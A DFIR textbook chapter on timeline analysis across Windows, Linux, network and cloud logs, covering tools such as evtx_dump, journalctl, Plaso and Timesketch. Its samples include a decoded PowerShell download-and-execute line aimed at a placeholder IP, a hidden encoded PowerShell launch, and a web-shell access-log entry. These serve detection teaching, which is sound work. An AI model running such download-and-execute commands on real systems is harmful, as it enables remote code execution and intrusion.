





This is Chapter 7 of the DFIR notebook. The previous chapters taught you
how to acquire and read individual artifacts — a memory image, a
registry hive, an ext4 inode. This chapter is about the discipline that
ties all of those artifacts together into one narrative: **timeline
analysis**. An investigation is not finished when you have a pile of
interesting findings; it is finished when you can lay those findings on
a single time axis and say, with evidence, "the attacker got in *here*,
did *this*, moved *there*, and left *then*."

Logs are the connective tissue of that narrative. Almost every action an
attacker takes leaves a record somewhere — an authentication event, a
process creation, a DNS query, an API call. The problem is never that
there are too few logs. It is that there are millions of them, spread
across a dozen formats and three timezones, most of them noise, and the
twelve lines that matter are buried in the middle. Learning to find
those twelve lines and prove their order is the single most valuable
skill in incident response.

Everything in this chapter is for lawful work: incident response on
systems and accounts you are authorised to examine, forensic labs, and
DFIR/CTF images. Collect with a documented chain of custody, hash before
and after, and never point collection or timeline tooling at
infrastructure you don't own or have written authority over.

---

## Part 1: What a Log Actually Is

Before touching a single tool, get precise about the raw material. A
**log** is an append-only sequence of **records**, each record
describing one **event** — something that happened at a point in time,
as observed by one component. That definition hides three ideas that
trip up beginners constantly.

**A record is an observation, not the truth.** A Windows event `4624`
does not mean "a user logged on." It means "the Local Security Authority
*believed* a logon succeeded and *chose* to write a record about it." If
the attacker is SYSTEM, they can stop that service, edit the log, or
never generate the event at all. Every log line is testimony from a
witness who may be compromised. Good analysts weigh logs like testimony
— corroborated by independent witnesses, never trusted alone.

**An event has at least two timestamps, usually more.** There is the
time the event *occurred*, the time it was *recorded*, the time it was
*forwarded* to a SIEM, and the time it was *indexed*. These differ —
sometimes by milliseconds, sometimes by hours if a host's clock is wrong
or a forwarder was backed up. Confusing "event time" with "ingest time"
is the most common way a timeline goes wrong.

**A log line is semi-structured.** Even "unstructured" syslog has a
grammar: a priority, a timestamp, a hostname, a tag, and a message.
Structured logs (JSON, EVTX, Windows XML) make every field explicit. The
whole game of log analysis is turning heterogeneous records into a
common schema so you can sort them on one axis.

Here is the anatomy of a classic syslog line, field by field:

```
Mar 14 04:12:07 web01 sshd[20413]: Failed password for invalid user admin from 203.0.113.44 port 51224 ssh2
```

| Field | Value | Meaning |
|-------|-------|---------|
| Timestamp | `Mar 14 04:12:07` | Local host time, **no year, no timezone** — a notorious weakness |
| Hostname | `web01` | The host that emitted the record (or the relay, if forwarded) |
| Program/tag | `sshd` | The process name that logged it |
| PID | `20413` | Process ID, lets you correlate multiple lines from one daemon instance |
| Message | `Failed password for invalid user admin from 203.0.113.44 ...` | Free-text payload — the part you actually grep |

That single missing year is why so many syslog timelines drift. The
modern fix is **RFC 5424 / RFC 3339** timestamps with a full date,
sub-second precision, and an explicit offset:

```
2027-03-14T04:12:07.481293+00:00 web01 sshd[20413]: Failed password ...
```

**IR use case:** the very first thing you establish on any host is *what
timezone its clock is in and whether that clock is correct*. On Linux,
`timedatectl` and the last few `systemd-timesyncd`/`chronyd` sync events
tell you. On Windows, the registry key
`HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation` and the
`Time-Service` event log do. Write the answer at the top of your notes
before you interpret a single event — a two-hour clock skew silently
mis-orders every conclusion you draw.

---

## Part 2: The Log Landscape Across an Estate

A real intrusion crosses many systems, and each keeps its own kind of
record. You need a mental map of where evidence lives so that when you
form a hypothesis ("they used stolen creds over RDP") you know exactly
which log to open. The diagram below is the estate you should picture.



Two rules govern how you use this map. First, **the most authoritative
witness is the one furthest from the attacker's control.** An attacker
on a host can rewrite that host's local logs; they cannot easily rewrite
the firewall's record of the connection, the DNS resolver's record of
the lookup, or the cloud provider's CloudTrail entry. When local and
remote logs disagree, believe the remote one and treat the difference as
evidence of tampering.

Second, **coverage is never complete, so you reason across gaps.** You
will almost never have every log. The skill is inferring what must have
happened in the dark stretches between the records you *do* have — and
being honest in the report about which links are observed versus
inferred.

---

## Part 3: Windows Event Logs — The EVTX Format and the IDs That Matter

Windows is the most log-rich endpoint you will investigate, and its logs
are a binary format called **EVTX**. You cannot `grep` a `.evtx` file
directly; it is a chunked binary structure with a template/substitution
model that stores each event as XML with the static template
deduplicated. Tools parse it into readable XML or JSON.

**Teaching the format from scratch.** An EVTX file is a 4 KB header
followed by 64 KB *chunks*. Each chunk has its own header, a string and
template table (so repeated event structures aren't stored twice), and a
series of event records. Every record has a numeric `EventRecordID`
(monotonic — gaps mean records were cleared or lost) and an `EventID`
(the *kind* of event). The body is "Binary XML," a token-compressed XML
that expands to the familiar
`<Event><System>…</System><EventData>…</EventData></Event>`.

The main channels you will open:

| Channel | File | What lives here |
|---------|------|-----------------|
| Security | `Security.evtx` | Logons, privilege use, account/group changes, object access, audit policy changes |
| System | `System.evtx` | Service installs, driver loads, time changes, crashes |
| Application | `Application.evtx` | App crashes, install/uninstall |
| Sysmon | `Microsoft-Windows-Sysmon/Operational.evtx` | Rich process/network/file/registry telemetry (if installed) |
| PowerShell | `Microsoft-Windows-PowerShell/Operational.evtx` | Script block + module logging |
| WinRM / TerminalServices | various | Remote management, RDP session lifecycle |

The Security event IDs worth memorising — these are the ones that carry
an intrusion:

| Event ID | Meaning | Why it matters in a timeline |
|----------|---------|------------------------------|
| 4624 | Successful logon | Look at **Logon Type** — 2 (interactive), 3 (network), 10 (RDP), 9 (RunAs/seclogo) |
| 4625 | Failed logon | Bursts = brute force / password spray; the **Status/Sub-status** codes tell you *why* |
| 4634 / 4647 | Logoff / user-initiated logoff | Bounds a session |
| 4648 | Explicit-credential logon | Lateral movement with `runas` / stolen creds |
| 4672 | Special privileges assigned | An admin logon just happened |
| 4688 | Process creation (with cmdline if audited) | The backbone of endpoint timelines |
| 4697 | Service installed | Classic persistence / lateral-movement (`psexec`) |
| 4720 / 4722 / 4728 / 4732 | Account created / enabled / added to global / local group | Attacker persistence |
| 4776 | NTLM credential validation | Pass-the-hash traces on the DC |
| 4768 / 4769 / 4771 | Kerberos TGT / TGS / pre-auth failed | Golden/silver ticket & Kerberoasting traces |
| 1102 | **The Security log was cleared** | An anti-forensic act — treat as a huge red flag |
| 7045 (System) | A service was installed | Corroborates 4697 |

**Logon Type is the single most important sub-field in Windows IR.** A
`4624` alone says nothing; a `4624` with **Type 10 from an external IP
at 04:00** is an RDP intrusion. Memorise the table:

| Logon Type | Name | Typical meaning |
|-----------|------|-----------------|
| 2 | Interactive | At the keyboard (or via some remote tools) |
| 3 | Network | SMB/file share, `net use`, remote WMI — pass-the-hash lands here |
| 4 | Batch | Scheduled task |
| 5 | Service | Service starting under an account |
| 7 | Unlock | Workstation unlock |
| 8 | NetworkCleartext | Basic-auth style, creds on the wire |
| 9 | NewCredentials | `runas /netonly` — token has different network creds |
| 10 | RemoteInteractive | RDP / Terminal Services |
| 11 | CachedInteractive | Logon using cached domain creds (offline) |

**Reading EVTX on the command line.** On a Linux analysis workstation,
the fastest parser is `evtx_dump` (from the Rust `evtx` crate). Install
and use it:

```bash
# Install (one binary, no runtime deps)
cargo install evtx            # or grab a release binary
# Dump to JSONL, one event per line — perfect for jq and timelines
evtx_dump -o jsonl Security.evtx > security.jsonl

# Pull every RDP logon (Type 10) with source IP and account
cat security.jsonl \
  | jq -r 'select(.Event.System.EventID == 4624)
           | select(.Event.EventData.LogonType == "10")
           | [.Event.System.TimeCreated["#attributes"].SystemTime,
              .Event.EventData.TargetUserName,
              .Event.EventData.IpAddress] | @tsv'
```

Sample output you'd actually see:

```
2027-03-14T04:03:11.204Z   svc-backup   203.0.113.44
2027-03-14T04:07:52.881Z   svc-backup   203.0.113.44
2027-03-14T05:19:40.006Z   Administrator 10.2.14.9
```

Every flag here matters: `-o jsonl` emits newline-delimited JSON
(streamable, unlike a giant JSON array); `jq -r` gives raw output
without quotes; `@tsv` tab-separates for easy `sort`/`awk`. **Blue team
usage:** the same one-liner run continuously is a detection —
external-IP Type-10 logons to servers that should only see internal RDP.

The Windows-native equivalent, when you are triaging live on the box, is
PowerShell's `Get-WinEvent`:

```powershell
# Failed logons in the last 24h, grouped by source IP — spray detection
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625; StartTime=(Get-Date).AddDays(-1)} |
  ForEach-Object { $_.Properties[19].Value } |   # index 19 = IpAddress for 4625
  Group-Object | Sort-Object Count -Descending | Select-Object Count, Name -First 10
```

`-FilterHashtable` pushes the filter down into the event-log engine
(fast, indexed) rather than pulling everything and filtering in
PowerShell (slow). Knowing which property index holds which field is the
fiddly part; `(Get-WinEvent -Max 1 ...).Properties` lets you enumerate
them.

---

## Part 4: Sysmon and PowerShell — The Richest Endpoint Telemetry

Stock Windows auditing is thin. **Sysmon** (System Monitor, a free
Sysinternals driver) is what turns a Windows host into a forensic
goldmine, and you will meet it on nearly every mature network. Teach it
from scratch: Sysmon is a kernel driver plus a service that writes
highly detailed events to its own `Microsoft-Windows-Sysmon/Operational`
channel, governed by an XML config that decides what to log. Its killer
feature over stock `4688` is that it records **process hashes,
parent-child lineage, command lines, network connections, and image
loads** in one place.

The Sysmon event IDs to know:

| Sysmon ID | Event | Investigative value |
|-----------|-------|---------------------|
| 1 | Process create | Full cmdline, hashes, **ParentImage** — build process trees |
| 3 | Network connection | Which process talked to which IP/port — C2 hunting |
| 7 | Image loaded | DLL side-loading, unsigned modules in signed processes |
| 8 | CreateRemoteThread | Classic injection |
| 10 | ProcessAccess | LSASS access → credential dumping |
| 11 | File create | Dropper artifacts, staging |
| 12/13/14 | Registry events | Persistence (Run keys, service configs) |
| 15 | FileCreateStreamHash | Alternate data streams, Mark-of-the-Web |
| 22 | DNS query | Which process resolved which domain |
| 23/26 | File delete | Anti-forensic wiping |

**The parent-child chain is the heart of endpoint IR.** An attacker's
`powershell.exe` looks innocent alone; `winword.exe → cmd.exe →
powershell.exe -enc …` is a macro-borne intrusion you can see at a
glance. Extract that tree from Sysmon:

```bash
evtx_dump -o jsonl "Microsoft-Windows-Sysmon%4Operational.evtx" > sysmon.jsonl

jq -r 'select(.Event.System.EventID==1)
       | [.Event.System.TimeCreated["#attributes"].SystemTime,
          .Event.EventData.ParentImage,
          .Event.EventData.Image,
          .Event.EventData.CommandLine] | @tsv' sysmon.jsonl \
  | grep -iE 'winword|excel|outlook'
```

Sample hit:

```
2027-03-14T03:58:22Z  C:\Program Files\Microsoft Office\...\WINWORD.EXE  C:\Windows\System32\cmd.exe  cmd /c powershell -nop -w hidden -enc SQBFAFgA...
```

**PowerShell logging** is the other half. Two features matter: **Module
Logging** (event `4103`, what pipelines ran) and **Script Block
Logging** (event `4104`, the *actual code*, de-obfuscated by the engine
after decoding). Attackers love `-EncodedCommand` because it hides the
payload from casual eyes — but script-block logging captures the decoded
block, so the base64 is defeated. Decode an `-enc` blob yourself to
confirm:

```bash
echo 'SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQA...' \
  | base64 -d | iconv -f UTF-16LE -t UTF-8
# -> IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.44/a.ps1')
```

PowerShell `-EncodedCommand` is UTF-16LE then base64, which is why the
`iconv` step is required. **Red team usage (for detection tuning):**
operators know 4104 exists, so they fragment or dynamically build
strings; the defensive counter is to alert on *the presence of
obfuscation itself* (high entropy, `-enc`, `FromBase64String`, `char[]`
reassembly) rather than on any one keyword.

---

## Part 5: Linux Logs — auth.log, journald and auditd

On Linux the evidence is thinner and easier to rewrite, so you lean
harder on corroboration. Three tiers exist.

**Tier 1 — the text logs.** `/var/log/auth.log` (Debian/Ubuntu) or
`/var/log/secure` (RHEL) records authentication: SSH logins, `sudo` use,
`su`, PAM sessions. `/var/log/syslog` and service-specific files
(`/var/log/nginx/access.log`, `/var/log/apache2/`) hold the rest. These
are plain text — trivial to grep, equally trivial for a root attacker to
edit, so treat them as leads to corroborate.

```bash
# Successful SSH logins with user + source IP, in time order
grep 'Accepted' /var/log/auth.log \
  | awk '{print $1,$2,$3, $9, $11}'   # date, user, from-IP
# Failed then successful from the same IP = a brute force that finally worked
grep -E 'Failed|Accepted' /var/log/auth.log | grep '203.0.113.44'
```

**Tier 2 — journald.** systemd's `journald` stores logs in an indexed
**binary** format under `/var/log/journal/`. You read it with
`journalctl`, never with a text editor. Its advantage for forensics:
entries carry rich structured fields and a monotonic sequence, and (if
`Seal=yes` with FSS keys) can be cryptographically tamper-evident.

```bash
# Everything sshd did, with full RFC3339 UTC timestamps, from an offline image
journalctl --directory=/mnt/evidence/var/log/journal \
           --utc -o short-iso-precise -u ssh.service

# All events in a tight window during the suspected intrusion
journalctl --directory=/mnt/evidence/var/log/journal \
           --since "2027-03-14 03:55:00" --until "2027-03-14 04:20:00" -o json \
  > journal-window.json
```

`--directory` points at an offline copy (crucial — never analyse on the
live victim if you can avoid it), `--utc` normalises the timezone
problem away, `-o json` gives you a machine-readable stream for your
timeline. **IR use case:** `journalctl _COMM=sudo` or `_UID=0` slices
the journal to root activity in seconds.

**Tier 3 — auditd.** The Linux Audit daemon is the closest thing to
Sysmon: a kernel-level record of syscalls, file access, and command
execution governed by rules in `/etc/audit/audit.rules`. Its output
(`/var/log/audit/audit.log`) is verbose and cryptic but authoritative.
Teach the tools: `ausearch` queries it, `aureport` summarises it.

```bash
# Every command executed by every user (needs an execve audit rule loaded)
ausearch -i -m EXECVE --start 03/14/2027 03:00:00 --end 03/14/2027 06:00:00
# Who touched /etc/passwd
ausearch -i -f /etc/passwd
# Summary of all commands seen
aureport -x --summary
```

`-i` "interprets" numeric UIDs/syscalls into names, `-m` selects a
message type, `-f` filters by file, `-x` reports by executable. If
auditd was configured with a good rule set before the incident, it is
often the single best Linux witness you'll have.

The Linux authentication log IDs/keywords worth knowing:

| Keyword / unit | Source | Meaning |
|----------------|--------|---------|
| `Accepted password/publickey` | sshd | Successful SSH login |
| `Failed password` | sshd | Failed SSH attempt |
| `session opened for user` | PAM | A session (login, cron, su) started |
| `sudo: … COMMAND=` | sudo | Privilege escalation with the exact command |
| `useradd`/`usermod`/`groupadd` | shadow-utils | Account manipulation |
| `COMM=`, `EXECVE` | auditd | Executed binary + args |

---

## Part 6: Network, DNS, Web and Cloud Logs — the Witnesses Outside the Host

Host logs tell you what a machine thinks happened; network and cloud
logs tell you what actually crossed the wire or the API, from a vantage
point the attacker rarely controls.

**Firewall / NetFlow** gives you the connection metadata: who talked to
whom, when, how much data. Even without payload, a spike of outbound
bytes to a never-before-seen IP at 3 a.m. is exfiltration. **Zeek**
(formerly Bro) turns raw packets into rich structured logs (`conn.log`,
`dns.log`, `http.log`, `ssl.log`, `files.log`) and is the network
analyst's timeline source of choice.

```bash
# Zeek conn.log: top talkers by bytes sent to external hosts
cat conn.log | zeek-cut id.orig_h id.resp_h resp_bytes orig_bytes duration \
  | sort -k4 -nr | head
```

**DNS logs** are disproportionately valuable. Almost all C2 and
exfiltration resolves a domain first, so DNS is often where you first
see the badness — and DNS tunnelling (long, high-entropy subdomains)
shows up as anomalously large TXT/A query volumes to one parent domain.

```bash
# Zeek dns.log: suspiciously long or high-entropy subdomains (possible tunnel)
cat dns.log | zeek-cut query | awk '{ if (length($1) > 50) print }' | sort | uniq -c | sort -nr
```

**Web server access logs** are the front door for internet-facing
intrusions. Combined Log Format is grep-friendly:

```
203.0.113.44 - - [14/Mar/2027:03:41:19 +0000] "POST /uploads/shell.php HTTP/1.1" 200 32 "-" "curl/8.4.0"
```

```bash
# First appearance of a web shell being hit, and everything from that IP after
grep 'shell.php' access.log | head -1
grep '203.0.113.44' access.log | awk '{print $4,$6,$7,$9}'
```

**Cloud control-plane logs** are increasingly the *only* durable record.
**AWS CloudTrail** captures every API call — who assumed which role, who
created a user, who snapshotted a volume — as JSON, in a bucket outside
the compromised instance. This is the "furthest from attacker control"
witness for cloud intrusions.

```bash
# CloudTrail: find every action taken by a suspect access key, in time order
jq -r '.Records[]
       | select(.userIdentity.accessKeyId=="AKIAEXAMPLE12345")
       | [.eventTime, .eventName, .sourceIPAddress, .awsRegion] | @tsv' \
   cloudtrail-*.json | sort
```

Sample output revealing an intrusion narrative:

```
2027-03-14T03:44:02Z  GetCallerIdentity   203.0.113.44   us-east-1
2027-03-14T03:44:31Z  ListBuckets         203.0.113.44   us-east-1
2027-03-14T03:46:10Z  CreateUser          203.0.113.44   us-east-1
2027-03-14T03:46:44Z  AttachUserPolicy    203.0.113.44   us-east-1
2027-03-14T03:52:19Z  CreateAccessKey     203.0.113.44   us-east-1
```

That five-line sequence — identity check, enumeration, new user, admin
policy, new key — *is* the persistence playbook, visible entirely in one
log.

**Azure / Entra ID sign-in logs** are the equivalent for the Microsoft
cloud, and identity is the new perimeter there. Each sign-in record
carries the user, the app, the source IP, the device, the
**conditional-access result**, and — critically — the **MFA result** and
a **risk score** from Entra ID Protection. Two fields catch most modern
intrusions: a sign-in from an "unfamiliar location"/anonymised IP, and
the presence of a *successful* sign-in immediately after a burst of MFA
prompts (MFA-fatigue/push-bombing). In KQL against the `SigninLogs`
table:

```kql
SigninLogs
| where ResultType == 0                       // successful sign-ins
| where RiskLevelDuringSignIn in ("high","medium")
| project TimeGenerated, UserPrincipalName, IPAddress,
          Location, AppDisplayName, AuthenticationRequirement
| sort by TimeGenerated asc
```

`ResultType == 0` is success; `RiskLevelDuringSignIn` is Entra's own
verdict; pairing a risky, successful sign-in with a new OAuth app
consent (`AuditLogs` "Consent to application") is the classic
business-email-compromise chain. **GCP** mirrors all of this in **Cloud
Audit Logs** (`protoPayload.methodName`,
`authenticationInfo.principalEmail`), queried with the same
filter-then-summarise shape in Log Explorer or BigQuery.

The lesson across all three clouds is identical: the control-plane log
lives outside the workload, records identity and API actions the
attacker cannot erase, and should be the *first* place you look for a
cloud intrusion — not the last.

---

## Part 7: Normalisation and Enrichment — Making Logs Comparable

You now have Windows XML, Linux text, Zeek TSV, and cloud JSON. They
cannot be sorted together until they share a schema. **Normalisation**
maps every source into common fields; **enrichment** adds context
(geo-IP, asset ownership, threat-intel matches) so a line means
something.

A workable minimal common schema:

| Field | Example | Notes |
|-------|---------|-------|
| `@timestamp` | `2027-03-14T04:03:11.204Z` | Always UTC, always RFC 3339 — the sort key |
| `host` | `web01` | Source host |
| `source_type` | `windows_security` | Which log produced it |
| `event_action` | `logon_success` | Normalised verb (map 4624 → logon_success) |
| `user` | `svc-backup` | Actor |
| `src_ip` / `dst_ip` | `203.0.113.44` | Network endpoints |
| `process` / `parent` | `cmd.exe` / `winword.exe` | Endpoint context |
| `raw` | `{…}` | The original record, always kept |

The **Elastic Common Schema (ECS)** and **OSSEM** are industry-standard
field dictionaries; adopting one saves you from re-inventing field
names. The cardinal rule: **normalise into a copy, never destroy the raw
record.** Keep `raw` so you can always go back to source, and so the
report can quote the original.

Enrichment steps that repeatedly pay off:

- **Geo/ASN on every external IP** — turns `203.0.113.44` into "hosting
  provider in country X," instantly flagging impossible-travel logons.
- **Timezone unification** — convert every timestamp to UTC at ingest;
  keep the original offset in a side field.
- **Known-good baselining** — tag events matching normal admin behaviour
  so they drop out of the noise.
- **Threat-intel matching** — flag any IP/domain/hash that appears in your
  intel feeds (covered in the next notebook).



---

## Part 8: The Super Timeline — Concept and Plaso from Scratch

A **super timeline** is a single chronological list of *every*
timestamped artifact on a system — not just log events, but file MACB
times, registry key write times, browser history, prefetch, event logs,
`$MFT` records — all merged and sorted. The value is that patterns
invisible in any one source jump out when everything is interleaved: a
malicious DLL *written* to disk (filesystem timestamp) 40 seconds before
a service *installed* (event log) that then made a network connection
(Sysmon) tells a story no single artifact could.

The canonical tool is **Plaso**, driven by two commands:
**`log2timeline.py`** (extract every timestamp from an image into a
database) and **`psort.py`** (filter, sort, and output that database
into a readable timeline). Teach it from scratch.

**What Plaso is:** an open-source Python framework of ~200 "parsers,"
each of which knows how to extract timestamps from one artifact type
(EVTX, `$MFT`, SQLite browser DBs, syslog, prefetch, registry, etc.).
You point it at a mounted image or triage collection; it runs every
applicable parser and writes a `.plaso` storage file — essentially a
giant, indexed table of `(timestamp, source, description)` rows.

Install on a Kali/analysis box:

```bash
# Plaso ships as a well-maintained package
sudo apt install plaso            # or: pip install plaso
log2timeline.py --version
```

**Step 1 — build the storage file.** Run against a mounted evidence
image or a KAPE/UAC triage folder:

```bash
log2timeline.py \
  --storage-file case42.plaso \
  --partitions all \
  --hashers md5 \
  -z UTC \
  /mnt/evidence/
```

Flag by flag: `--storage-file` names the output DB; `--partitions all`
processes every partition, not just the first; `--hashers md5` records a
hash of each file it parses (handy for later IOC matching); `-z UTC`
sets the *assumed* timezone for logs that lack one — set this to the
host's real timezone, which you established back in Part 1. This step
can take minutes to hours; it is CPU-bound and parallel.

**Step 2 — narrow before you look.** A full super timeline of a
workstation can be tens of millions of rows — unusable if dumped whole.
Always filter to a window and/or artifact set with `psort.py`. First,
sanity-check the range:

```bash
psort.py -o l2tcsv case42.plaso "date > '2027-03-14 03:00:00' AND date < '2027-03-14 06:00:00'" \
  -w intrusion-window.csv
```

The quoted string is a Plaso **event filter** — a mini query language.
You can filter on `date`, `parser`, `data_type`, `filename`, and more.
Restricting to the three-hour window turns millions of rows into a few
thousand.

**Step 3 — read the l2tcsv columns.** The `l2tcsv` output format has a
fixed, well-known column layout:

| Column | Meaning |
|--------|---------|
| `date`, `time`, `timezone` | When the event happened |
| `MACB` | Which filesystem timestamp(s) this row represents (Modified/Accessed/Changed/Born) |
| `source`, `sourcetype` | Which parser/artifact produced it (e.g. `EVT`, `FILE`, `REG`, `WEBHIST`) |
| `type` | The specific timestamp meaning ("Content Modification Time", "Creation Time") |
| `user`, `host` | If known |
| `short`, `desc` | The human description — the part you read |
| `filename`, `inode`, `notes` | Provenance back to source |

A few interleaved rows from a real timeline tell the story instantly:

```
2027-03-14 03:58:22, FILE, ...B, "C:\Users\Public\svc.dll  (file created)"
2027-03-14 03:58:41, EVT,  Service Control Manager, "A service was installed: 'WinBackupSvc' -> C:\Users\Public\svc.dll"
2027-03-14 03:58:43, EVT,  Sysmon, "Network connection: svc.exe -> 203.0.113.44:443"
2027-03-14 03:59:05, REG,  Run key, "HKLM\...\Run\Updater set to C:\Users\Public\svc.dll"
```

Written → installed → beaconed → persisted, in 43 seconds. That is what
a super timeline is *for*.

---

## Part 9: Timesketch — Collaborative Timeline Analysis at Scale

CSV timelines don't scale to team investigations or millions of rows.
**Timesketch** is the open-source web app (from the same lineage as
Plaso) built for exactly this: import one or more Plaso files or JSONL,
then search, tag, star, comment, and annotate collaboratively on a
shared timeline, with multiple analysts building the story together.

Teach it from scratch. Timesketch is a Flask app backed by
OpenSearch/Elasticsearch for the timeline data and Postgres for case
metadata. You run it via Docker Compose, create a "sketch" (a case), and
add "timelines" (imported data sources) to it.

```bash
# Import a Plaso file straight into a sketch via the CLI client
timesketch_importer --host https://timesketch.local \
  --sketch_id 42 --timeline_name "web01 supertimeline" case42.plaso
```

Inside a sketch you work with:

- **Search** using a Lucene-style query bar — `event_identifier:4624 AND
  logon_type:10` finds RDP logons across every imported host at once.
- **Stars and tags** — mark the twelve lines that matter
  (`tag:suspicious`, `star`) so the narrative survives across analysts and
  days.
- **Comments** — attach your reasoning to a specific event ("first
  attacker RDP; source IP geolocates to hosting provider").
- **Saved views & the Story feature** — assemble starred events into a
  written narrative that becomes the backbone of the report.
- **Analyzers** — plugins that auto-tag (browser artifacts, sigma matches,
  similarity), doing first-pass triage for you.
- **Aggregations & histograms** — a bar chart of events-per-minute makes
  the intrusion window visually obvious as a spike.

**Team IR use case:** in a real breach, one analyst works the endpoint
timeline, another the cloud logs, a third the network — all pinning
findings to the same Timesketch sketch on one time axis. The lead reads
the merged, tagged timeline and writes the story from starred events.
This is how modern IR teams avoid the classic failure of three people
independently discovering the same three facts.

---

## Part 10: Pivoting and the Four-Corner Technique

Timeline analysis is not "read from the top." It is **pivoting**: find
one solid anchor, then expand outward along shared attributes (a user,
an IP, a process, a host, a time window), letting each new fact become
the next anchor. The disciplined version is often taught as the **four
corners** of an event — from any single event you can pivot on *who*
(user/account), *what* (process/file/hash), *where* (host/IP), and
*when* (time window).



**A worked pivot.** Suppose your anchor is a `4624` Type-10 for
`svc-backup` from `203.0.113.44` at `04:03`.

1. **WHO** — pull every event for `svc-backup`: you find it also ran `4688`
   events for `cmd.exe` and `rundll32.exe` at 04:05, and a `4720` (account
   created: `svc-backup2`) at 04:11. Persistence spotted.
